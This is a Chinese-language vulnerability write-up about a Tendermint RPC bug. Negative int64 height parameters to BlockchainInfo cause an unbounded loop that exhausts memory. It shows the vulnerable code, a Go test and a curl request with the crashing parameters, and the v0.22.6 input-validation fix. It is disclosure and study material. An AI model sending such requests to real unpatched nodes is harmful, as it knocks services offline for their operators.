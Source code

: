 # [DC-01] RPC请求因For-loop导致OOM

## 漏洞标签

`RPC` `For-loop` `OOM`

## 漏洞描述

这是一个来自 hackerone 提交的关于 RPC 的漏洞。恶意的 `BlockchainInfo` 请求可能会导致无限循环，最终导致内存耗尽导致崩溃。

## 漏洞分析

文件：`rpc/core/blocks.go`

漏洞代码: [链接](https://github.com/tendermint/tendermint/blob/v0.22.5/rpc/core/blocks.go)

```go
func BlockchainInfo(ctx *rpctypes.Context, minHeight, maxHeight int64) (*ctypes.ResultBlockchainInfo, error) {
	if minHeight == 0 {
		minHeight = 1
	}

	if maxHeight == 0 {
		maxHeight = blockStore.Height()
	} else {
		maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)
	}

	// maximum 20 block metas
	const limit int64 = 20
	minHeight = cmn.MaxInt64(minHeight, maxHeight-limit)

	logger.Debug("BlockchainInfoHandler", "maxHeight", maxHeight, "minHeight", minHeight)

	if minHeight > maxHeight {
		return nil, fmt.Errorf("min height %d can't be greater than max height %d", minHeight, maxHeight)
	}

	blockMetas := []*types.BlockMeta{}
	for height := maxHeight; height >= minHeight; height-- { // for-loop
		blockMeta := blockStore.LoadBlockMeta(height)
		blockMetas = append(blockMetas, blockMeta)
	}

	return &ctypes.ResultBlockchainInfo{blockStore.Height(), blockMetas}, nil
}
```

攻击者可以发送如下参数值：

```go
minHeight = -9223372036854775808 (min int64)
maxHeight = -9223372036854775788 (minHeight + 20)
```

注意到`maxHeight = cmn.MinInt64(blockStore.Height(), maxHeight)`，其中 `MinInt64` 为从两个参数选择较小的，所以我们使用负值的 `maxHeight`。

注意循环语句 `for height := maxHeight; height >= minHeight; height-- {}`，代码中的 for-loop 会可以无限次循环执行。当达到循环次数 9223372036854775807 (max int64) ，还能继续进行。每次无法查找块时，它会向 `blockMetas` 向量追加一个nil。 最终，这将增长到足以耗尽服务器上的内存。

## 复现或测试步骤

此处可以有两种复现方式。

### 使用 go test 脚本测试

```golang
// XuanMao : Bug test
func TestBlockchainInfoForloop(t *testing.T) {
	config := cfg.ResetTestRoot("node_node_test")
	defer os.RemoveAll(config.RootDir)

	// create & start node
	n, err := DefaultNewNode(config, log.TestingLogger())
	require.NoError(t, err)
	err = n.Start()
    require.NoError(t, err)
    
	c := struct {
		min, max     int64
	}{
	-9223372036854775808, -9223372036854775788,
	}
	BlockchainInfo(c.min,c.max)
}
```

![1](./1.png)

可以看到内存持续上升，几分钟后程序 crash.

### 启动节点复现

开启一个节点，并向节点接口(`e.g. 127.0.0.1:26657`)，发送以下请求：

```bash
curl 'http:///blockchain?minHeight=-9223372036854775808&maxHeight=-9223372036854775788'
```

## 修复

本漏洞相关修复见 : [Fix](https://github.com/tendermint/tendermint/commit/8dc655dad25b0b04f271cb66ba73fd504db3195d)

本漏洞在版本 v0.22.6 中修复。

修复方法：

增加 `filterMinMax` 对输入的参数值进行检查处理。

1. 检查参数值不小于0；
2. `min` 小于 `max`；
3. 当 `min` 为 0 时，设置为 1 ，当 `max` 为 0 ，设置为最后区块高度。

```golang
// error if either min or max are negative or min < max
// if 0, use 1 for min, latest block height for max
// enforce limit.
// error if min > max
func filterMinMax(height, min, max, limit int64) (int64, int64, error) {
	// filter negatives
	if min < 0 || max < 0 {
		return min, max, fmt.Errorf("heights must be non-negative")
	}

	// adjust for default values
	if min == 0 {
		min = 1
	}
	if max == 0 {
		max = height
	}

	// limit max to the height
	max = cmn.MinInt64(height, max)

	// limit min to within `limit` of max
	// so the total number of blocks returned will be `limit`
	min = cmn.MaxInt64(min, max-limit+1)

	if min > max {
		return min, max, fmt.Errorf("min height %d can't be greater than max height %d", min, max)
	}
	return min, max, nil
}
```

## 相关资料

本漏洞相关 `Issue` 见 : [Issue](https://github.com/tendermint/tendermint/issues/2049)


